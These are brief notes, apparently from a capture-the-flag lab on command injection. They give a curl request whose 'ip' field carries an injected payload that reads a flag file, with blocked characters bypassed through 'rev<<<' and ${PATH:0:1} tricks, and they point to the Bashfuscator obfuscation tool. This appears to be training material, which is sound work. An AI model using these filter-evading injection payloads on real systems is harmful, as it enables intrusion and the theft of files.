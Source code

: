 #

`%0a` == SPACE char

```
curl -X POST "http://94.237.49.212:41131/" --data 'ip=;{$(rev<<<"tac"),${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}'
```

> Note that we are using <<< to avoid using a pipe |, which is a filtered character.


# Bashfuscator

https://github.com/Bashfuscator/Bashfuscator
